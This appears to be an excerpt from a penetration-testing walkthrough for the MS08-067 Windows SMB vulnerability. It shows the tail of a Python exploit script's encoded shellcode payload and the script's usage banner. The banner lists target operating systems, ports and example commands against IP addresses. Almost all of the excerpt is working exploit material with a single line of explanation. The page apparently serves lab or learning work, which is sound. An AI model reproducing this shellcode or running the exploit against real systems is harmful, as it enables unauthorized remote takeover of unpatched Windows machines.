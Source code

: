```python
shellcode += b"\x88\x4e\x8b\x18\xe9\xbe\x64\xc1\xb5\x05\xbd"
shellcode += b"\x87\x32\xfc\xc7\x9c\x0e\xc4\xc9\xa2\x46\x22"
shellcode += b"\xd3\xf2\xc5\x8c\xc3\xb3\x78\x41\xe2\x92\x7e"
shellcode += b"\x6c\x1d\xc1\xee\x05\xbd\x83\x32\xc4\xd3\x18"
shellcode += b"\xf5\x9f\x97\x70\xf1\x8f\x3e\xc2\x32\xd7\xcf"
shellcode += b"\x92\x6a\x05\xa6\x8b\x5a\xb4\xa6\x18\x8d\x05"
shellcode += b"\xee\x45\x88\x71\x43\x52\x76\x83\xee\x54\x81"
shellcode += b"\x6e\x9a\x65\xba\xf3\x17\xa8\xc4\xaa\x9a\x77"
shellcode += b"\xe1\x05\xb7\xb7\xb8\x5d\x89\x18\xb5\xc5\x64"
shellcode += b"\xcb\xa5\x8f\x3c\x18\xbd\x05\xee\x43\x30\xca"
shellcode += b"\xcb\xb7\xe2\xd5\x8e\xca\xe3\xdf\x10\x73\xe6"
shellcode += b"\xd1\xb5\x18\xab\x65\x62\xce\xd1\xbd\xdd\x93"
shellcode += b"\xb9\xe6\x98\xe0\x8b\xd1\xbb\xfb\xf5\xf9\xc9"
shellcode += b"\x94\x46\x5b\x57\x03\xb8\x8e\xef\xba\x7d\xda"
shellcode += b"\xbf\xfb\x90\x0e\x84\x93\x46\x5b\xbf\xc3\xe9"
shellcode += b"\xde\xaf\xc3\xf9\xde\x87\x79\xb6\x51\x0f\x6c"
shellcode += b"\x6c\x19\x85\x96\xd1\x84\xe5\x9d\x98\xe6\xed"
shellcode += b"\x93\xa8\xdf\x66\x75\xd3\x9e\xb9\xc4\xd1\x17"
shellcode += b"\x4a\xe7\xd8\x71\x3a\x16\x79\xfa\xe3\x6c\xf7"
shellcode += b"\x86\x9a\x7f\xd1\x7e\x5a\x31\xef\x71\x3a\xfb"
shellcode += b"\xda\xe3\x8b\x93\x30\x6d\xb8\xc4\xee\xbf\x19"
shellcode += b"\xf9\xab\xd7\xb9\x71\x44\xe8\x28\xd7\x9d\xb2"
shellcode += b"\xee\x92\x34\xca\xcb\x83\x7f\x8e\xab\xc7\xe9"
shellcode += b"\xd8\xb9\xc5\xff\xd8\xa1\xc5\xef\xdd\xb9\xfb"
shellcode += b"\xc0\x42\xd0\x15\x46\x5b\x66\x73\xf7\xd8\xa9"
shellcode += b"\x6c\x89\xe6\xe7\x14\xa4\xee\x10\x46\x02\x6e"
shellcode += b"\xf2\xb9\xb3\xe6\x49\x06\x04\x13\x10\x46\x85"
shellcode += b"\x88\x93\x99\x39\x75\x0f\xe6\xbc\x35\xa8\x80"
shellcode += b"\xcb\xe1\x85\x93\xea\x71\x3a"

# ------------------------------------------------------------------------
```

Executing the script without any arguments reveals the usage isntructions.

```bash
/ms08_067# python ./ms08_067_2018.py 
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer:
#   - Added support for selecting a target port at the command line.
#     It seemed that only 445 was previously supported.
#   - Changed library calls to correctly establish a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode. Just cut and paste
#     into this source file.
#######################################################################


Usage: ./ms08_067_2018.py <target ip> <os #> <Port #>

Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)

```